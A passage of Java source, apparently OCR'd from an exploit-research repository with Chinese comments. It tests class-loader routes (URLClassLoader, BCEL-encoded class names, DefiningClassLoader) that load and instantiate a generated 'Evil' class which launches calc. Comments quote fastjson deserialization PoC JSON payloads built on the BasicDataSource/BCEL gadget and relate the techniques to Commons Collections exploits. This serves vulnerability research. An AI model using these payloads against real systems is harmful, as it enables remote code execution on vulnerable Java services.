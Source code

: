 ```java
	}
	
	public static void main(String[] args) {
		//!!!这里的测试，主要尝试利用不同的类加载器，获取不同来源的类byte[]!!!! 虽然来源不同，但触发机制和evilClassTest中还是一致的。//
		
/*		//从本地或者网络加载类，触发方式为loadClass()和newInstance();
		try {
			File file = new File("D:\\");
			URL url = file.toURL();
			URL[] urls = new URL[]{url};
			ClassLoader cl = new URLClassLoader(urls);
			Class cls = cl.loadClass("Evil");
			cls.newInstance();
			//
			
			
		} catch (Exception e) {
			e.printStackTrace();
		}*/
		
/*		//从本地或者网络加载类，但触发方式为Class.forName();
		try {
			File file = new File("D:\\");
			URL url = file.toURL();
			URL[] urls = new URL[]{url};
			ClassLoader cl = new URLClassLoader(urls);
			Class yyy = Class.forName("evil",true,cl);
			
		} catch (Exception e) {
			e.printStackTrace();
		}
		*/
		
		
		//从classname(类名称)中加载类，触发方式为Class.forName();
/*		//基于com.sun.org.apache.bcel.internal.util.ClassLoader的fastjosn的PoC就是利用了这种类加载机制和触发方式。
		//{{"@type":"com.alibaba.fastjson.JSONObject","c":{"@type":"org.apache.tomcat.dbcp.dbcp.BasicDataSource","driverClassLoader":{"@type":"com.sun.org.apache.bcel.internal.util.ClassLoader"},"driverClassName":"xxx"}}:"ddd"}
		//{{"@type":"com.alibaba.fastjson.JSONObject","c":{"@type":"org.apache.commons.dbcp.BasicDataSource","driverClassLoader":{"@type":"com.sun.org.apache.bcel.internal.util.ClassLoader"},"driverClassName":"xxx"}}:"ddd"}
		byte[] st = createEvilClass.create("calc");
		try {
			String classname = Utility.encode(st,true);
			System.out.println(classname);
			classname = "org.apache.log4j.spi$$BCEL$$"+classname;
			ClassLoader cls = new com.sun.org.apache.bcel.internal.util.ClassLoader();
			Class.forName(classname, true, cls);
		} catch (Exception e) {
			e.printStackTrace();
		}*/
		
		
		//从byte[]中加载类，newInstance()触发;
		//基于org.mozilla.javascript.DefiningClassLoader的 PoC可以在Commons Collections的漏洞中使用，因为它是invoke方式触发的，可以构造出来。
		//而在fastjson中，则由于格式的限制，不能构造
		try {
			byte[] st = createEvilClass.create("evil","calc");
			org.mozilla.javascript.DefiningClassLoader cl = new org.mozilla.javascript.DefiningClassLoader();
			Class c = cl.defineClass("evil", st);
```